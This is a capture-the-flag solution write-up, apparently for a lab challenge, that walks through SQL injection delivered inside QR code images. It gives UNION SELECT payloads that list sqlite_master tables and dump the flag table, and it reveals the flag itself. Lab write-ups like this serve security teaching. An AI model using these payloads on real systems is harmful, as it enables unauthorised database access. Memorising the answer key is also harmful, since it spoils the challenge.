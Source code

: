 <img src="../../../../../pc1-logo.png" height="250px">

# Hasenpfeffer Badgeonator Incorporated

## Solution

To solve, player will have to inject via qr codes. We recommend pypy's qrcode
(installed by `pip3` during challenge setup as part of `requirements.txt`).

First, check if the server might be vulnerable to sql injection via QR images?

```
$ qr "'" > ~/Desktop/0.png
```

It is! Now lets get table names:

```
$ qr "' OR '1'='1' union SELECT 1, 2, 3, tbl_name FROM sqlite_master --" > ~/Desktop/1.png
```

Once you find the table, get the values:

```
$ qr "' OR '1'='1' union SELECT 1, 2, 3, value FROM flag --" > ~/Desktop/2.png
```

Now that we have the table name, lets dump the values:

```
$ qr "' OR '1'='1' union SELECT 1, 2, id, value FROM shotz --" > ~/Desktop/3.png
```

The flag is a lat/lng coordinate.

Flag - `43°35'26''N 84°11'52''W`

## License
Copyright 2020 Carnegie Mellon University.  
Released under a MIT (SEI)-style license, please see LICENSE.md in the project root or contact permission@sei.cmu.edu for full terms.
